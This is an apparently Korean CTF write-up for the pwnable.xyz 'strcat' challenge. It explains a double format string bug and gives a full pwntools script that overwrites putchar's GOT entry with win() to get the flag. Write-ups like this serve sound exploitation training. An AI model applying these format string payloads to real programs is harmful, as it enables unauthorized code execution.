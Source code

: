 # [pwnable.xyz] strcat

> Who needs a name extending service? That's probably vulnerable.

## The Bug

![image](https://github.com/user-attachments/assets/0e4187ea-4e74-4144-b5f6-ebf4956d545c)

`main()`에서 format string bug가 연속으로 두 번 발생한다.

## Exploit

![image](https://github.com/user-attachments/assets/0cfdd41e-2314-4c2d-9c3e-d39179ac2a46)

`main()`의 `rsp`에 `rsp+0xf0`의 값이 저장되어 있다. 첫 번째 FSB로 이 위치에 임의의 주소를 쓰고, 두 번째 FSB로 그 주소에 임의의 값을 쓸 수 있다.

`putchar()`의 GOT를 `win()`의 주소로 덮어쓰면 플래그를 획득할 수 있다.

![image](https://github.com/user-attachments/assets/f223028e-a441-415b-9730-d2274e6c2a51)

`desc`의 중간에 null terminator가 삽입되지 않도록 `name`의 길이를 충분히 길게 설정해야 한다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30013)

sla = r.sendlineafter
sa = r.sendafter

win = 0x40094C
putchar_got = 0x602020

desc = f"%{str(win)}c%36$ln".encode()
name = f"%{str(putchar_got)}c%6$ln".ljust(len(desc) + 2, "A").encode()

sla(b"Name: ", name)
sla(b"Desc: ", desc)
sla(b"> ", b"3")

r.recvline()

r.interactive()
```

![image](https://github.com/user-attachments/assets/afeff1ff-f397-4139-953d-91308e7629a4)
